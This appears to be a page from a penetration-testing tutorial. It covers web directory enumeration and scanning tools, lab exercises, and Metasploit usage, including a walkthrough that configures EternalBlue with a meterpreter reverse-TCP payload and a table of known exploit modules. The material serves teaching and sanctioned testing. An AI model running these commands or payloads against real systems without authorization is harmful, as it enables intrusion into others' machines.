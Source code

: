 **Web Application Enumeration**

| Tool | Purpose | Example Command |
|---|---|---|
| `dirb` | Directory brute-forcing | `dirb http://target /usr/share/dirb/wordlists/common.txt` |
| `gobuster` | Fast directory/file brute-forcer | `gobuster dir -u http://target -w /usr/share/wordlists/dirb/common.txt` |
| `nikto` | Web vulnerability scanner | `nikto -h http://target` |
| `whatweb` | Web technology identifier | `whatweb http://target` |

**Exercises: Scanning & Enumeration**

1. Perform a comprehensive nmap scan on `scanme.nmap.org`
2. Use `gobuster` to find hidden directories on a test web application
3. Enumerate SMB shares on a Windows machine (if available in your lab)
4. Use `nikto` to scan a web application for vulnerabilities

---

### Exploitation Techniques

After identifying vulnerabilities, the next step is exploitation to gain unauthorized access.

#### Metasploit Framework

The most popular exploitation framework for penetration testing.

**Basic Metasploit Commands**

| Command | Purpose |
|---|---|
| `msfconsole` | Start Metasploit console |
| `search ms17-010` | Search for exploits |
| `use exploit/windows/smb/ms17_010_eternalblue` | Select an exploit |
| `show options` | Display exploit options |
| `set RHOSTS 192.168.1.100` | Set target host |
| `set payload windows/x64/meterpreter/reverse_tcp` | Set payload |
| `set LHOST 192.168.1.50` | Set listening host |
| `exploit` | Run the exploit |

**Common Metasploit Modules**

| Vulnerability | Module | Target |
|---|---|---|
| EternalBlue | `exploit/windows/smb/ms17_010_eternalblue` | Windows SMB |
| Shellshock | `exploit/multi/http/apache_mod_cgi_bash_env_exec` | Apache CGI |
| Struts2 | `exploit/multi/http/struts2_content_type_ognl` | Java Struts |
| BlueKeep | `exploit/windows/rdp/cve_2019_0708_bluekeep_rce` | Windows RDP |
